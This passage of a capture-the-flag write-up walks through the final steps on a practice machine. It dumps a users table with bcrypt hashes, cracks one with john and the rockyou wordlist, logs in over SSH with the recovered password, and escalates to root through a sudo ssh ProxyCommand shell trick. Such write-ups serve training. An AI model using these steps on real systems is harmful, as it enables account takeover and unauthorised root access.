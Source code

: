 After getting this info we can get all the records in the 'users' table:

```sql
SELECT * FROM users;
```
```
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

As usual passwords are _bcrypt-hashed_ and for retrieving it we could use _john_.
We can create a new _.txt_ file with the hashed passwords and then run the command

```bash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt to_crack.txt
```

Retrieving as password: _manchesterunited_

Another info we get is that there is a user named _josh_ in the home folder, and we know that SSH port is open.

Now we can SSH as user _josh_ and password _manchesterunited_, founding the _User Flag_


#### Root Flag

Common thing to do is to check if we can run some commands as sudo:

```bash
sudo -l

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

Looking for info on **GTFOBins** for elevating our privileges with ssh command, we get that we can run:

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Get the flag in /root folder


#nmap #enumeration #gobuster #sudo #postgre #gtfobins #ssh #revshell #reverseshell #burp #commandinjection #cookie #springboot #john